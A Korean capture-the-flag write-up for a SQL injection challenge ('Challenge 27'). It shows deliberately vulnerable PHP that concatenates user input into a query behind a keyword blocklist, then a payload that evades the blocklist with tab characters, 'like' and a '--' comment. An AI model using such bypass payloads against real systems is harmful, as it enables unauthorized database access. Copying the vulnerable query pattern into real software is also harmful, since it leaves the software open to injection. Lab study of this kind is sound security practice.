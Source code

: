 # sql

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 27</title>
</head>
<body>
<h1>SQL INJECTION</h1>
<form method=get action=index.php>
<input type=text name=no><input type=submit>
</form>
<?php
  if($_GET['no']){
  $db = dbconnect();
  if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
  $r=mysqli_fetch_array(mysqli_query($db,"select id from chall27 where id='guest' and no=({$_GET['no']})")) or die("query error");
  if($r['id']=="guest") echo("guest");
  if($r['id']=="admin") solve(27); // admin's no = 2
}
?>
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```

필터링부분을 보자

```php
if(preg_match("/#|select|\(| |limit|=|0x/i",$_GET['no'])) exit("no hack");
```

`#, select, (, 공백, limit, =, 0x` 이런 애들이 필터링된다. 

쿼리를 보자

```sql
select id from chall27 where id='guest' and no=({$_GET['no']})")
```

참고하는 컬럼은 id와 no이다. id는 guest, admin, no는 각각 1, 2이다. 
앞에 설정된 guest는 무시하고, no로만 불러올 수 있다. 

`or no=2` 이걸 넣어야 한다. 
하지만, 공백, = 모두 필터링이 된다. 인풋을 받는 괄호도 닫아 주어야 한다. 

9) or no like 2 -- 이렇게 해서 앞에 괄호를 닫아주고, like로 =을 대체한다. 뒤에 오는 쿼리를 무시하기위해 #대신 -- 를 쓴다. 
그리고, 공백 넣으면 안되니까, 탭키를 삽입한다. 

```sql
2)%09or%09no%09like%092%09--%09
```

그럼 해결



> 이런류의 sql injection은 단순하잖아. 
> 필터링 문자를 우회하는 것.
>
> 근데도 아직은 sql에 대한 지식이 부족해서 인지.. 
> 우회방법이 바로바로 떠오르지 않는다. 